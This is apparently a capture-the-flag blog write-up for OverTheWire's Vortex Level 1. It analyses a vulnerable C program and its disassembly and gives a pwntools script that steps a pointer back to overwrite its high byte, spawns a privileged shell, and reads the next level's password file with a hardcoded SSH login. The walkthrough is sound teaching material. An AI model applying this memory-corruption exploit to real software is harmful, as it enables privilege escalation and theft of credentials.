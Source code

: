 ```yaml
---
layout: post
title:  "Vortex Level 1"
date:   2015-10-21 02:20
categories: vortex wargame web overthewire
author: Natri
---
```

This is a solution guide to the Vortex Level 01 at <a href="http://overthewire.org/wargames/vortex/vortex1.html">overthewire</a>. This write-up was created on 21 October 2015.
<!--break-->

1. Once logged in, navigate to /vortex/
2. Execute program and see what a standard output gives
3. Examine the source code given
4. Write the exploit

<h2>Standard Output</h2>
{% highlight text %}
./vortex1    
aaaaaaaaaa
[ 0 0 0 0 1 0 0 0 0 e0 fc f7 0 d0 ff f7 cb 6b fe f7 0 c0 ff f7 0 10 0 0 1 0 0 0 8c 6b fe f7 0 d0 ff f7 0 0 0 0 d8 d5 ff ff db 70 fe f7 f0 da ff f7 b8 e5 fc f7 1 0 0 0 1 0 0 0 0 0 0 0 ac 55 ff f7 0 0 0 0 0 0 0 0 5c d5 ff f7 a8 d5 ff ff c8 d5 ff ff 0 0 0 0 ac 55 ff f7 5c d5 ff f7 c8 d5 ff ff ac c4 fd f7 dc c2 fd f7 cd 4d fe f7 fd 5f e3 f7 ff 82 4 8 0 0 0 0 3c c3 fd f7 0 0 0 0 0 c0 fd f7 40 0 0 0 2 0 0 0 7d 82 4 8 24 dc ff f7 bc 26 e2 f7 0 d0 ff f7 b8 6c e2 f7 1 0 0 0 b8 e2 fc f7 24 55 fe f7 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 b8 e2 fc f7 3 0 0 0 f0 d5 ff ff 71 ea b1 7 2e 4e 3d f6 c8 6e e2 f7 f8 fb e2 f7 56 d ff f7 0 d0 ff f7 e2 f4 fd f7 5c d5 ff f7 f0 da ff f7 0 0 0 0 61 61 61 61 61 61 61 61 61 61 0 0 1 0 0 0 d3 8 0 0 e8 e2 fc f7 0 e0 fc f7 d4 82 4 8 38 4 e3 f7 5c 82 4 8 1 0 0 0 0 0 2 0 b6 2e ff f7 2 0 0 0 0 d0 ff f7 34 d7 ff ff f0 da ff f7 f0 d6 ff ff aa 57 fe f7 a0 d6 ff ff 5c 82 4 8 a8 d6 ff ff 94 da ff f7 0 0 0 0 e8 e2 fc f7 1 0 0 0 0 0 0 0 1 0 0 0 38 d9 ff f7 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 3 0 0 0 9 0 0 0 3f 0 c0 4 0 0 0 0 34 d7 ff ff a8 d6 ff ff a0 d6 ff ff d4 82 4 8 38 d9 ff f7 0 0 0 0 c2 0 0 0 b6 75 eb f7 ff ff ff ff ce d6 ff ff f8 fb e2 f7 53 5f e5 f7 0 0 0 0 0 0 ca 0 1 0 0 0 a9 83 4 8 bf d8 ff ff 2f 0 0 0 0 a0 4 8 22 87 4 8 1 0 0 0 94 d7 ff ff 9c d7 ff ff d 61 e5 f7 c4 a3 fc f7 0 d0 ff f7 db 86 4 8  ]
{% endhighlight %}
So we can see that it does input our 'aaaa' in the middle of the buffer as expected by the source code.

<h2>Examine Source Code</h2>
The end state is that we want the following code to run and in order to do that we need to make sure the unsigned integer value at ptr is 0xca000000 when AND with 0xff000000
{% highlight c %}
define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
{% endhighlight %}

Looking at how the variables are declared:

1. <strong>buf</strong> is an array of char
2. <strong>ptr</strong> is a pointer to location of buf + half the size of buf; so esentially it is pointing to the 256th element in buf at the time of declaration [See indexing of pointers](http://boredzo.org/pointers/#indexing). Any time we call ptr we are getting an address value


{% highlight c %}
unsigned char buf[512];
unsigned char *ptr = buf + (sizeof(buf)/2);
unsigned int x;
{% endhighlight %}

What if we didn't have the source code, how would we find this vulnerability? Look at the disassembly of the code (see bottom section on 'Determining the stack')

The vulnerability in this program is in the loop section of code.  There are three types of characters that can make an action happen:

* <strong>A New Line</strong>
   * This case is triggered when we press return
   * Will print out what is in <strong>buf</strong>
* <strong>Backslash '\\'</strong>
   * Decriments <strong>ptr</strong>
   * This is good because <strong>ptr</strong> is a pointer and by decrimenting it the address decriments
   * <strong>KEY: </strong>It is this code that is going to allow us to do a buffer overflow at the bottom of the stack
* <strong>Anything Else</strong>
   * Executes the <strong>e()</strong> function
   * Checks to see if <strong>ptr</strong> has gone pass <strong>buf</strong> array size; to prevent buffer overflow at the top of the stack
   * Writes the value of current char into the address <strong>ptr</strong> is currently at; this is how we are going to get <strong>0xca</strong> into the stack

{% highlight c linenos %}
while((x = getchar()) != EOF) {
   switch(x) {
      case '\n': print(buf, sizeof(buf)); continue; break;
      case '\\': ptr--; break;
      default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
   }
}
{% endhighlight %}

<h2>Write the expliot</h2>
We have all the tools we need to take advantage of the buffer overflow at the bottom of the stack.

1. Determine where to write
2. Take <strong>ptr</strong> to that point
3. Write the value <strong>0xca</strong>
3. Get the function <strong>e()</strong> to execute
4. Grab the flag

{% highlight python linenos %}
from pwn import *
import time

HOST = 'votex.labs.overthewire.org'
USERNAME = 'vortex1'
PASS = 'Gq#qu3bF3'

s = ssh(host=HOST, user=USERNAME, password=PASS)

location = "/vortex"
file_name = '%s/vortex1' % location
password_file = '/etc/vortex_pass/vortex2'
r = s.run(file_name)

#need to overwrite the MSB of the ptr variable; through stack analysis I found this
buff_size = 512
ptr_loc = buff_size / 2
getchar_size = 4

#location of where we want to write 0xca so we can pass the if statement and setresuid
where_to_write = ptr_loc + getchar_size + 1

r.send('\\' * where_to_write) #move ptr to the place we want to write
r.send('\xca') #write the value we want
r.send('\\') #send the pointer back one
r.send('\xff') #this value doesn't matter just want to make sure the case that initiates function e() gets triggered

#get rid of any junk from the buffer
r.clean()

#give time for hack to work
time.sleep(1)

r.sendline('cat %s' % password_file) #read the password file
log.success('Password: %s' % r.recv().strip()) #log the password on screen

{% endhighlight %}
<h2>Determining the Stack</h2>
To find out vulnerabilities to smash the stack we need to see how the stack is made and utilized.  Looking at the disassembly of the main procedure below lets build the stack:

1. 080485c8: makes the stack 0x220 in size
2. 080485ce and 080485d4: creates the [stack canary](https://xorl.wordpress.com/2010/10/14/linux-glibc-stack-canary-values/) to ensure the top of the stack doesn't get corrupted; so since it puts an address at esp+0x21c that is the 0x4 size needed for an address of 32-bit address
3. Set the <strong>ptr</strong> address:
   1. 080485dd: grabs the memory location of the buffer array
   2. 080485e1: takes memory address and adds 0x100 (this is 256 decimal which is half the buffer size; matches source code)
   3. 080485e6: Puts that value onto the stack
4. 0804868e and 08048693: the <strong>getchar</strong> c function is called and value is stored in stack at memory location esp+0x18
5. Interesting to note that only pointers are stored on the stack as can be seen by [ss:esp+x]
4. Now our stack looks like this


| Variable | Position on the stack (esp + x) | stack size | notes |
| ptr | 0x14 | 4 | initial value should be [buf+0x100] |
| getchar value | 0x18 | 0x4 |
| buf variable | 0x1c | 0x200 |
| canary | 0x21c | 4 |

So now we know what the stack looks like so we can manipulate it.  So we need to set the value in <strong>ptr</strong> and can do so by manipulating <strong>ptr</strong> until we get to where we can modify the MSB of <strong>ptr</strong>.  So <strong>ptr</strong> starts at 0x11c (0x1c + 0x100) and we want to get to 0x17 (MSB of <strong>ptr</strong> since words/addresses are read in reverse order) therefore we want to go back 0x105 (261).

{% highlight text linenos %}
main:
080485c0         push       ebp                                                 ; XREF=_start+23
080485c1         mov        ebp, esp
080485c3         push       esi
080485c4         push       ebx
080485c5         and        esp, 0xfffffff0
080485c8         sub        esp, 0x220
080485ce         mov        eax, dword [gs:0x14]
080485d4         mov        dword [ss:esp+0x21c], eax
080485db         xor        eax, eax
080485dd         lea        eax, dword [ss:esp+0x1c]
080485e1         add        eax, 0x100
080485e6         mov        dword [ss:esp+0x14], eax
080485ea         jmp        0x804868e

080485ef         mov        eax, dword [ss:esp+0x18]                            ; XREF=main+220
080485f3         cmp        eax, 0xa
080485f6         je         0x80485ff

080485f8         cmp        eax, 0x5c
080485fb         je         0x8048615

080485fd         jmp        0x804861c

080485ff         mov        dword [ss:esp+0x4], 0x200                           ; argument #2 for method print, XREF=main+54
08048607         lea        eax, dword [ss:esp+0x1c]
0804860b         mov        dword [ss:esp], eax                                 ; argument #1 for method print
0804860e         call       print
08048613         jmp        0x804868e

08048615         sub        dword [ss:esp+0x14], 0x1                            ; ptr back one, XREF=main+59
0804861a         jmp        0x804868e

0804861c         mov        eax, dword [ss:esp+0x14]                            ; XREF=main+61
08048620         and        eax, 0xff000000
08048625         cmp        eax, 0xca000000
0804862a         jne        0x804866b

0804862c         call       j_geteuid
08048631         mov        esi, eax
08048633         call       j_geteuid
08048638         mov        ebx, eax
0804863a         call       j_geteuid
0804863f         mov        dword [ss:esp+0x8], esi
08048643         mov        dword [ss:esp+0x4], ebx
08048647         mov        dword [ss:esp], eax
0804864a         call       j_setresuid
0804864f         mov        dword [ss:esp+0x8], 0x0
08048657         mov        dword [ss:esp+0x4], 0x804876a                       ; argument "arg0" for method j_execlp
0804865f         mov        dword [ss:esp], 0x804876d                           ; "/bin/sh", argument "file" for method j_execlp
08048666         call       j_execlp

0804866b         lea        eax, dword [ss:esp+0x1c]                            ; XREF=main+106
0804866f         add        eax, 0x200
08048674         cmp        dword [ss:esp+0x14], eax
08048678         jbe        0x804867c

0804867a         jmp        0x804868d

0804867c         mov        eax, dword [ss:esp+0x14]                            ; XREF=main+184
08048680         lea        edx, dword [ds:eax+0x1]
08048683         mov        dword [ss:esp+0x14], edx
08048687         mov        edx, dword [ss:esp+0x18]
0804868b         mov        byte [ds:eax], dl

0804868d         nop                                                            ; XREF=main+186

0804868e         call       j_getchar                                           ; XREF=main+42, main+83, main+90
08048693         mov        dword [ss:esp+0x18], eax
08048697         cmp        dword [ss:esp+0x18], 0xffffffff
0804869c         jne        0x80485ef

080486a2         mov        dword [ss:esp], 0x8048775                           ; "All done", argument "s" for method j_puts
080486a9         call       j_puts
080486ae         mov        eax, 0x0
080486b3         mov        ecx, dword [ss:esp+0x21c]
080486ba         xor        ecx, dword [gs:0x14]
080486c1         je         0x80486c8

080486c3         call       j___stack_chk_fail

080486c8         lea        esp, dword [ss:ebp+var_8]                           ; XREF=main+257
080486cb         pop        ebx
080486cc         pop        esi
080486cd         pop        ebp
080486ce         ret        
           ; endp
080486cf         nop        
{% endhighlight %}
